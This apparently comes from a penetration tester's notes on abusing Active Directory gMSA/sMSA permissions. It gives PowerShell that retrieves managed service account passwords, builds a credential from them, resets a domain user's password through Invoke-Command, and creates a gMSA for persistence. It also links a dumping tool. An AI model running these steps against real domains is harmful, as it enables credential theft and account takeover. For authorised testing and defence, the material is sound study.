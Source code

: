 

[[Active-Directory-Permissions]]



## sMSA or gMSA permissions

No Kerberoast no problem with [[Active-Directory-sMSA-gMSA]] permissions a user can reset passwords! Python tool below:
-  [GMSA dumper](https://github.com/micahvandeusen/gMSADumper)!

Retrieving a Password

Get the gmsa account managed password property and convert the password blob:
```powershell
$gmsa = Get-ADServiceAccount -Identity $gmsaIdentity -Properties 'msDS-ManagedPassword'
$gmsaPass = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $gmsaPass
```
Create a credential object and then use the `SecureCurrentPassword` property to perform powershell runas in  a `Invoke-Command` code block: 
```powershell
$credobj = ConvertFrom-ADManagedPasswordBlob $gmsaPass
$credobj.SecureCurrentPassword
$credential = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $credobj.SecureCurrentPassword
# Now we can invoke command
Invoke-Command -Computername localhost -Credential $credential -Scriptblock { net user TRISTAN.DAVIES password123! /domain }
```

To create a GMSA - for [[AD-Persistence-ACLs]] or testing
```powershell
# Create a new KDS Root Key that will be used by DC to generate managed passwords
Add-KdsRootKey -EffectiveTime (Get-Date).AddHours(-10)

# Create a new GMSA
New-ADServiceAccount `
	-Name 'SQL_HQ_Primary' `
	-DNSHostName 'sql1.adatum.com'
# Set a Managed Password ACL
Set-ADServiceAccount `
	-Identity 'SQL_HQ_Primary' `
	-PrincipalsAllowedToRetrieveManagedPassword 'Administrator'

```

## References

 [dsinternals - Retrieving Cleartext GMSA Passwords from Active Directory](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)
